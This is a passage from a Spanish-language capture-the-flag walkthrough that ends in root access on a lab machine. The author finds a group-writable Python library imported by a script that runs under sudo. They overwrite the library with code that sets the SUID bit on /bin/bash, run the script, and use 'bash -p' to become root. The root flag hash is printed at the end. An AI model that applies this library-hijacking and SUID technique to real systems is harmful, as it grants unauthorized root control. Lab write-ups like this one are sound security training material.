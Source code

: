 ```python
        main()
    except KeyboardInterrupt:
        print("\nAnimación terminada.")
```

Vemos que se esta importando una libreria bastante rara en el script que se llama `pytest` por lo que vamos a buscarla a ver que hace.

```shell
find / -name "pytest.py" 2>/dev/null
```

Info:

```
/usr/lib/python3.12/pytest.py
```

Si listamos para ver los permisos que tiene dicha libreria...

```shell
ls -la /usr/lib/python3.12/pytest.py
```

Info:

```
-rwxrwxr-x 1 root admin 1 Jan 10 17:08 /usr/lib/python3.12/pytest.py
```

Vemos que somos del grupo del script, por lo que podremos escribirlo, haciendo lo siguiente.

```shell
nano /usr/lib/python3.12/pytest.py

#Dentro del nano
#/bin/python3

import os

os.system("chmod u+s /bin/bash")
print("Se ha establecido el bit SUID en /bin/bash.")
```

Esto lo que hara sera hacer un `chmod u+s /bin/bash`, por lo que lo guardamos y ejecutamos lo siguiente para que se ejecute la libreria y se nos ponga con permisos `SUID` la `bash`.

```shell
sudo python3 /opt/script.py
```

Y tendremos que darle a `Ctrl+C` para que pare la `"animacion"` y si comprobamos la `bash`.

```shell
ls -la /bin/bash
```

Info:

```
-rwsr-xr-x 1 root root 1446024 Mar 31  2024 /bin/bash
```

Vemos que tiene permisos `SUID` por lo que haremos lo siguiente:

```shell
bash -p
```

Y con esto ya seremos `root`, por lo que leeremos la flag de `root`.

> root.txt

```
8d4efee97352c73a8b059a94fe69dcd1
```
